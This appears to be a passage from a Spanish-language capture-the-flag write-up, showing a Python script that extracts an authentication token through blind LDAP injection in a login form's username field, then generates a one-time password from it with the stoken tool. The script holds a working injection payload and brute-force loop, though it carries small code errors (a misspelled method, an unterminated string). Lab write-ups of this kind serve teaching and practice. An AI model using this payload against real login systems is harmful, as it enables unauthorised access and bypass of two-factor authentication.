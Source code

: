 ```python
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://<iP>/login.php"
digits = string.digits
atributo = "pager"

# Funciones
def makeRequest():

	token = ""
	p1 = log.progress("ldap injection")
	p1.status("iniciando ataque de fuerza bruta")

	time.sleep(2)

	p2 = log.progres("TOKEN")
	for position in range(0, 81):
		for digit in digits:

			post_data = {			
				'inputUsername' : f'ldapuser%29%28{atributo}%3d{token}{digit}%2a%29%29%29%00,
				"inputOTP" : '123'
			}

			p1.status(f"Probando con el digito {digit} en la posicion [{position}]: {post_data['inputUsername']}")
			r = requests.post(main_url, data=post_data)

			if "Cannot login" in r.text:
				token += digit
				p2.status(token)
				break
			time.sleep(1)

if __name__ == "__main__":
	
	makeRequest()
```

-----------
#### Generating One-Time Password (OTP) [stoken]  
Con el token dumpeado, podemos crear un **OTP** con la herramienta **stoken** de la siguiente manera:
```
stoken --token=<TOKEN>
```

Nos pedira un **PIN**, podemos simplemente dejarlo vacio o poner como input **0000** y esto nos va a generar el **OTP**:
![[Pasted image 20230629153400.png]]
